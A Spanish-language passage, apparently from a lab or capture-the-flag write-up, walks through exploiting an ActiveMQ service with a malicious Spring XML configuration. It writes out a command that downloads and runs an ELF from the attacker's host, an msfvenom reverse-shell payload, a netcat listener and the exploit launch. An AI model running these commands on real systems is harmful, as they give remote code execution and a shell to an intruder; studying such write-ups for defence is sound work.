 Este archivo define la configuración de una aplicación Spring, que crea un bean de tipo `java.lang.ProcessBuilder` que
se ejecutará al inicio. Como parte del constructor, se ejecutará un comando en bash que descargará un archivo `test.elf`
con curl y lo ejecutará.

Para explotar la vulnerabilidad seguimos los siguietes pasos:

1. Modificamos el archivo `poc-linux.xml` para que apunte a nuestra máquina atacante.
```xml
<value>curl -s -o test.elf http://10.10.16.13:8001/test.elf; chmod +x ./test.elf; ./test.elf</value>
```

2. Generamos el archivo `test.elf` malicioso con `msfvenom`. En concreto una reverse shell por el puerto 4444.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.13 LPORT=4444 -f elf -o test.elf
```

3. Nos ponemos en escucha en el puerto 4444 con `nc`:

```bash
nc -lvp 4444
```

4. Iniciamos con python un servidor HTTP en el directorio donde se encuentren los archivos `poc-linux.xml` y `test.elf`

```bash
python -m http.server 8001
```

5. Lanzamos el archivo `main.go` con los parámetros necesarios:

```bash
go run main.go -i 10.10.11.243 -u http://10.10.16.13:8001/poc-linux.xml
```

Si todo va bien, deberíamos ver peticiones a nuestro servidor HTTP.

![HTTP server receiving request from ActiveMQ](http-server-requests.png)

Y deberíamos recibir una reverse shell como el usuario `activemq`.
